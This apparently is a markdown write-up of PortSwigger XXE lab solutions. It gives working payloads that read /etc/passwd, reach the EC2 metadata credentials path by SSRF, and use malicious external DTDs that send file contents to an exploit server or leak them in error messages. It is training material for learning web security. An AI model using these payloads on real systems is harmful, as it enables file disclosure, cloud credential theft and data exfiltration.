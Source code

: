 # XXE

- https://portswigger.net/web-security/xxe
- https://portswigger.net/web-security/xxe/xml-entities
- https://portswigger.net/web-security/xxe/blind

## Exploiting XXE using external entities to retrieve files

`POST /product/stock` requests check the amount of products in the store and uses XML as a data format as seen in the request body below:

```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

Once we modify the `productId` to a `WRONG` value, we can notice that it is being reflected as an error, so if this part would be vulnerable to XXE, we could read system files this way.

Modifying the request to below body results in the error response containign `file123`, which proves that the parser uses unsafe features of external entities

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE check [<!ENTITY file "file123">]>
<stockCheck><productId>&file;</productId><storeId>1</storeId></stockCheck>
```


`<!DOCTYPE check [...]>` defines document and allow specifing its entities.

`< ... [<!ENTITY file "file123">]>` defines an entity `file`, which when accessed by `&file;` will result in value `file123`

Now we can modify the entity to the below value, which will contain the content of `/etc/passwd` file inside `file` entity, which once reference in `productId` param will retrieve its value and result in an error displaying it to us.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE check [<!ENTITY file SYSTEM "file:///etc/passwd">]>
<stockCheck><productId>&file;</productId><storeId>1</storeId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks

Same history in this task, but this time we need to retrieve the value from external source (simulated EC2 instace metadata endpoint). To achieve this the following payload could be used

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE dxxe [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

`http://169.254.169.254/` was provided in the lab description and fetching its content responded with all the possible next paths that could be taken and that proces ran recursively solves the lab.

Finding secret keys path in steps:
 - `/` -> `latest`
 - `/latest` -> `meta-data`
 - `/latest/meta-data` -> `iam`
 - and so on...

EC2 docs could also be checked for this.

## Blind XXE with out-of-band interaction

Burp Collaborator required - Pro feature only.

To solve the lab create entity definition `xxe` as shown below and reference in `productId` key, by `&xxe;`:

```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

## Blind XXE with out-of-band interaction via XML parameter entities

Burp Collaborator required - Pro feature only.

Solving the lab here is nearly the same as before, but this time casual entities are blocked. Fortunately we can make use of parameter entities.

```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.

## Exploiting blind XXE to exfiltrate data using a malicious external DTD

We cannot retrieve the file content via error messages, because always general error response is returned. 

To solve this lab we require a server that would host a malicious partial dtd declaration shown below.

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://exploit-0a58001904b1e593812c83dd01d80063.exploit-server.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Now again in `POST /product/stock` request by modyfing the body, injecting the below payload leaks the hostname as a request param in explot server.

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a58001904b1e593812c83dd01d80063.exploit-server.net/exploit.dtd"> %xxe;]>
```

How this works?

By specifing and invoking `xxe` parameter entity, we say to the parser to fetch further `ENTITY` definitions from specified url and inject them into `DOCTYPE` definition and interpret them inline. Further fetched `ENTITY` definitions will read `/etc/hostname` file by `%filel;` entity and dynamically create and entity `%exfiltrate` that will fetch remote server with one of the query params containing file content via `%eval;` entity.

## Exploiting blind XXE to retrieve data via error messages

Similar to the previous situations.
Casual entities are blocked for security reasons. Invalid values provided to `productId` or `stockId` are not reflected back to us.

By injecting below payload we can see the error is returned:

```
<!DOCTYPE foo [<!ENTITY % xxe "test"> %xxe;]>
```

Now we can use exploit server to store partial dtd definitiona file at `/exploit.dtd`

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///notexisting/%file;'>"> 
%eval;
%error;
```

Now injecting below payload to the `POST /product/stock` will cause entity declaration and invocation, which will cause to fetch and interpret inline the partial `exploit.dtd` definition.

`exploit.dtd` defines a `file` parameter entity with value of `/etc/passwd` file content, and then evaluates dynamically `error` entity which tries to open the not existantant filename containing `/etc/passwd` value, which triggers an error and responds with it to the client.
